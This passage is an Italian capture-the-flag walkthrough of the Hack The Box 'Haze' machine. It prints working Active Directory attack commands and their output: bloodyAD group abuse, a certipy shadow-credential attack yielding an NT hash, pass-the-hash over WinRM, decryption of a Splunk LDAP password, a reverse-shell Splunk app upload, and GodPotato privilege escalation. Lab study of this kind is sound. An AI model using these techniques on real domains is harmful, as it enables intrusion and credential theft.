INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.haze.htb
INFO: Found 9 users
INFO: Found 57 groups
INFO: Found 2 gpos
INFO: Found 2 ous
INFO: Found 20 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc01.haze.htb
INFO: Done in 00M 11S
INFO: Compressing output into 20251112151600_bloodhound.zip
```

Si utilizza BloodHound.


### ForceChangePassword fails
Si aggiunge Haze-IT-Backup$ al gruppo Support_Services.
```bash
$ KRB5CCNAME=${PWD}/'Haze-IT-Backup$.ccache' bloodyAD --host DC01.haze.htb -d haze.htb -k add groupMember 'Support_Services' 'Haze-IT-Backup$'
```
```
[+] Haze-IT-Backup$ added to Support_Services
```

E si effettua un force change password contro **edward.martin**.
```bash
$ KRB5CCNAME=${PWD}/'Haze-IT-Backup$.ccache' bloodyAD --host DC01.haze.htb -d haze.htb -k set password 'edward.martin' 'Password123!'
```
```
Password can't be changed before -1 day, 0:00:50.460074 because of the minimum password age policy.
```

Ma non risulta possibile forzare il cambio della password per limitazioni.

### Shadow Credential Attack

```bash
$ KRB5CCNAME=${PWD}/'Haze-IT-Backup$.ccache' certipy-ad shadow auto -dc-host DC01.haze.htb -u 'Haze-IT-Backup$' -hashes :'cbdee8fc0e469b3a6bbafda64a73214e' -account 'edward.martin'
```
```
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: DC01.haze.htb.
[!] Use -debug to print a stacktrace
[*] Targeting user 'edward.martin'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'df5fe7d7-7feb-7ec5-3c24-5038aadaa538'
[*] Adding Key Credential with device ID 'df5fe7d7-7feb-7ec5-3c24-5038aadaa538' to the Key Credentials for 'edward.martin'
[*] Successfully added Key Credential with device ID 'df5fe7d7-7feb-7ec5-3c24-5038aadaa538' to the Key Credentials for 'edward.martin'
[*] Authenticating as 'edward.martin' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'edward.martin@haze.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'edward.martin.ccache'
[*] Wrote credential cache to 'edward.martin.ccache'
[*] Trying to retrieve NT hash for 'edward.martin'
[*] Restoring the old Key Credentials for 'edward.martin'
[*] Successfully restored the old Key Credentials for 'edward.martin'
[*] NT hash for 'edward.martin': 09e0b3eeb2e7a6b0d419e9ff8f4d91af
```

Si tenta l'accesso tramite WinRM usando le credenziali **edward.martin:09e0b3eeb2e7a6b0d419e9ff8f4d91af**.
```bash
$ nxc winrm DC01.haze.htb -u 'edward.martin' -H '09e0b3eeb2e7a6b0d419e9ff8f4d91af' 
```
```
WINRM       10.129.58.53    5985   DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb)
WINRM       10.129.58.53    5985   DC01             [+] haze.htb\edward.martin:09e0b3eeb2e7a6b0d419e9ff8f4d91af (Pwn3d!)
```

## **Shell as edward.martin**
Si accede alla shell come edward.martin e si legge il contenuto del file **user.txt**.


Si elencano le informazioni sull'account, i gruppi e i privilegi.



L'utente fa parte del gruppo **HAZE\Backup_Reviewers**. 



Si scarica il file ZIP sulla macchina Kali e lo si analizza.



Si trovano le seguenti credenziali:

`/etc/passwd`
```
:admin:$6$8FRibWS3pDNoVWHU$vTW2NYea7GiZoN0nE6asP6xQsec44MlcK2ZehY5RC4xeTAz4kVVcbCkQ9xBI2c7A8VPmajczPOBjcVgccXbr9/::Administrator:admin:changeme@example.com:::19934
```

Si è tentato il cracking di queste credenziali ma nulla da fare.

```bash
$ find Splunk -name "authentication.conf" 2>/dev/null 
```
```
Splunk/etc/system/default/authentication.conf
Splunk/var/run/splunk/confsnapshot/baseline_local/system/local/authentication.conf
Splunk/var/run/splunk/confsnapshot/baseline_default/system/default/authentication.conf
```

Si ispezionano i file **authentication.conf** e **splunk.secret**.

`Splunk/var/run/splunk/confsnapshot/baseline_local/system/local/authentication.conf`
```
[default]

minPasswordLength = 8
minPasswordUppercase = 0
minPasswordLowercase = 0
minPasswordSpecial = 0
minPasswordDigit = 0


[Haze LDAP Auth]

SSLEnabled = 0
anonymous_referrals = 1
bindDN = CN=alexander.green,CN=Users,DC=haze,DC=htb
bindDNpassword = $1$YDz8WfhoCWmf6aTRkA+QqUI=
charset = utf8
emailAttribute = mail
enableRangeRetrieval = 0
groupBaseDN = CN=Splunk_Admins,CN=Users,DC=haze,DC=htb
groupMappingAttribute = dn
groupMemberAttribute = member
groupNameAttribute = cn
host = dc01.haze.htb
nestedGroups = 0
network_timeout = 20
pagelimit = -1
port = 389
realNameAttribute = cn
sizelimit = 1000
timelimit = 15
userBaseDN = CN=Users,DC=haze,DC=htb
userNameAttribute = samaccountname

[authentication]
authSettings = Haze LDAP Auth
authType = LDAP
```


```bash 
$ find Splunk -name "splunk.secret" -exec ls '{}' \; -exec cat '{}' \; 2>/dev/null
```
```
Splunk/etc/auth/splunk.secret
CgL8i4HvEen3cCYOYZDBkuATi5WQuORBw9g4zp4pv5mpMcMF3sWKtaCWTX8Kc1BK3pb9HR13oJqHpvYLUZ.gIJIuYZCA/YNwbbI4fDkbpGD.8yX/8VPVTG22V5G5rDxO5qNzXSQIz3NBtFE6oPhVLAVOJ0EgCYGjuk.fgspXYUc9F24Q6P/QGB/XP8sLZ2h00FQYRmxaSUTAroHHz8fYIsChsea7GBRaolimfQLD7yWGefscTbuXOMJOrzr/6B
```

La passowrd di **alexander.green** è protetta secondo la configurazione Splunk pre-7.2 (guarda [https://github.com/HurricaneLabs/splunksecrets](https://github.com/HurricaneLabs/splunksecrets)).

Il risultato dello XOR tra password e DEFAULTSA (default salt) viene elaborato dall'algoritmo RC4 utilizzando con chiave i primi 16-bytes del contenuto del file splunk.secret.

Si utilizza il repository **/HurricaneLabs/splunksecrets** [https://github.com/HurricaneLabs/splunksecrets](https://github.com/HurricaneLabs/splunksecrets) per decifrare la password.

```bash
$ splunksecrets splunk-decrypt --ciphertext '$1$YDz8WfhoCWmf6aTRkA+QqUI=' --splunk-secret Splunk/etc/auth/splunk.secret
```
```
Sp1unkadmin@2k24
```

Si verifica la validità delle credenziali **alexander.green:Sp1unkadmin@2k24**

Purtroppo, le credenziali non funzionano nel dominio Haze.

## **Splunk Web**
Si utilizzano le credenziali per accedere alla piattaforma Splunk come **admin:Sp1unkadmin@2k24**


L'utente **Administrator** possiede i privilegi del ruolo di **admin**.



In Splunk è possibile gestire app e installarle da file.




Con qualche ricerca si trova questo repository **0xjpuff/reverse_shell_splunk** [https://github.com/0xjpuff/reverse_shell_splunk](https://github.com/0xjpuff/reverse_shell_splunk) in cui è presente un template per la creazione di una reverse shell in splunk package.

Si ottiene come risultato il file **reverse_shell_splunk.spl**.
```
reverse_shell_splunk.spl: gzip compressed data, from Unix, original size modulo 2^32 10240
```

Si lancia un listener sulla porta 4444 e si carica il payload sulla piattaforma:




## **Shell as alexander.green**

Si elencano informazioni sull'account, i gruppi e i privilegi.



### SeImpersonatePrivilege Abuse
Si scarica sulla macchina target **GodPotato** [https://github.com/BeichenDream/GodPotato](https://github.com/BeichenDream/GodPotato) e si esegue l'exploit.



Si scarica sulla macchina target **netcat**. Si lancia sulla macchina Kali un listener sulla porta 5000. Si esegue una reverse shell sfruttando il SeImpersonatePrivilege.




## **Shell as NT AUTHORITY\SYSTEM**
Si accede al contenuto del file **root.txt**.



---